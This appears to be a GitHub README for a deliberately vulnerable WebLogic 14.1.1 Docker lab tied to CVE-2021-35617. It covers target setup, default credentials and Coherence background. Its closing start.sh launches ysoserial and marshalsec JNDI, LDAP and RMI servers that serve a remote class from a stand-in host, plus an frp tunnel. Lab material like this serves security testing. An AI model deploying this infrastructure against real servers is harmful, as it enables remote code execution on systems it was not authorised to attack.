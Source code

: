 # weblogic1411
weblogic1411 docker vul hub
CVE-2021-35617 Coherence Container	IIOP POC N-day

- what is Coherence
https://baike.baidu.com/item/coherence

Coherence的主要用途是共享一个应用的对象(主要是java对象，比如Web应用的一个会话java对象)和数据(比如数据库数据，通过OR-MAPPING后成为Java对象)。　简单来说，就是当一个应用把它的对象或数据托管给Coherence管理的时候，该对象或数据就能够在整个集群环境(多个应用服务器节点)共享，应用程序可以非常简单地调用get方法取得该对象，并且由于Coherence本身的冗余机制使得任何一个应用服务器节点的失败都不会影响到该对象的丢失。其实如果不使用coherence，对于一个会话在多个应用服务器节点的共享一般是通过应用服务器本身的集群技术，而Coherence的创造者则认为基于某种应用服务器技术的集群技术来共享会话变量的技术并不完整，而专门开发出Coherence这个产品(原来称为tangosol)并且最后被Oracle收购，这个产品既有原来各种应用服务器集群所具有的各种技术特点，而且又增加了原来各种应用服务器集群技术所没有的各种特性。

## docker下如何安装weblogic 14.1.1.0.0的靶机
https://www.oracle.com/middleware/technologies/weblogic-server-installers-downloads.html
https://www.oracle.com/webapps/redirect/signon?nexturl=https://download.oracle.com/otn/nt/middleware/14c/14110/fmw_14.1.1.0.0_wls_lite_Disk1_1of1.zip
https://www.oracle.com/webapps/redirect/signon?nexturl=https://download.oracle.com/otn/nt/middleware/12c/122140/fmw_12.2.1.4.0_wls_lite_Disk1_1of1.zip
https://download.oracle.com/otn/nt/middleware/11g/wls/1036/wls1036_generic.jar

### 我遇到了什么坑？
macos安装X11的支持，否则docker图形界面无法显示，weblogic无法继续安装
```bash
brew install xquartz
```
并启动xquartz,macos上运行：
```bash
export DISPLAY=localhost:0
xhost + 127.0.0.1
xhost + `ipconfig getifaddr en0`


```
#### 开始运行docker
- X11相关的包已经一键安装
- fmw_14.1.1.0.0_wls.jar 官网注册后下载
- jdk1.8.0_151 从其他weblogic环境中拷贝
```bash
docker run -it -e DISPLAY=$DISPLAY -v $HOME/Downloads/fmw_14.1.1.0.0_wls.jar:/fmw_14.1.1.0.0_wls.jar -v `pwd`/jdk1.8.0_151:/jdk1.8.0_151 ubuntu:latest /bin/bash -c 'apt update;apt install -yy libxrender-dev libxext-dev libxtst-dev;useradd weblogic;mkdir -p /home/weblogic;chown -R weblogic:weblogic /home/weblogic;bash'

su - weblogic
export DISPLAY="docker.for.mac.localhost:0"
/jdk1.8.0_151/bin/java -jar /fmw_14.1.1.0.0_wls.jar
```
图形界面出来自己操作完成即可
```bash
su - weblogic
export JAVA_HOME=/jdk1.8.0_151
/home/weblogic/Oracle/Middleware/Oracle_Home/user_projects/domains/base_domain/startWebLogic.sh
```
- 让docker外可以访问端口
3707ee81ff3d 替换为你当前的
```
docker port 3707ee81ff3d 7001
```
你可以访问了
http://127.0.0.1:7001/console

- 用户名和密码：weblogic/weblogic123

# 你还可以直接运行
```bash
docker run -d -p 7001:7001 hktalent/weblogic:14.1.1 
docker run --rm -p 7001:7001 hktalent/weblogic:12.2.1.4.0
```
# How debug
```bash
docker run -d --name mywbl -e debugFlag=true -e DEBUG_PORT=9999 -p 9999:9999 -p 7001:7001 hktalent/weblogic:12.2.1.4.0
```

# other: 自动化渗透 server
```
cp $mtx/../tools/marshalsec-0.0.3-SNAPSHOT-all.jar .
cp $mtx/../tools/ysoserial-0.0.6-SNAPSHOT-all.jar .
# docker run -it -v $PWD:/frp --name my4hkfrp adoptopenjdk:8u292-b10-jre-openj9-0.26.0 /frp/start.sh
docker run -it -v $PWD:/frp --name my4hkfrp hktalent/51pwn4hacker:v1.1 /bin/sh
# docker exec -it my4hkfrp /bin/sh
cd /frp
/frp/start.sh
tmux ls
```
### start.sh 
cat start.sh 
```bash
#!/bin/bash

cd /frp
mkdir pocs
tmux new -s 'xxe_s_8888' -d
tmux send -t 'xxe_s_8888' "node httpServer.js" enter

tmux new -s 'jndi_s_1098' -d
tmux send -t 'jndi_s_1098' "java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JNDIServer" enter

tmux new -s 'ldap_s_1389' -d
tmux send -t 'ldap_s_1389' "java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer 'http://xxx.com:8888/#UpX34defineClass' 1389" enter

tmux new -s 'rmi_s_1099' -d
tmux send -t 'rmi_s_1099' "java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer 'http://xxx.com:8888/#UpX34defineClass' 1099" enter

tmux new -s 'frpS' -d
tmux send -t 'frpS' "./frpc_linux_amd64 -c ./frpc4pwn.ini" enter

tmux ls
echo control + b, d
echo control + p, control + q
tmux a -t frpS
```
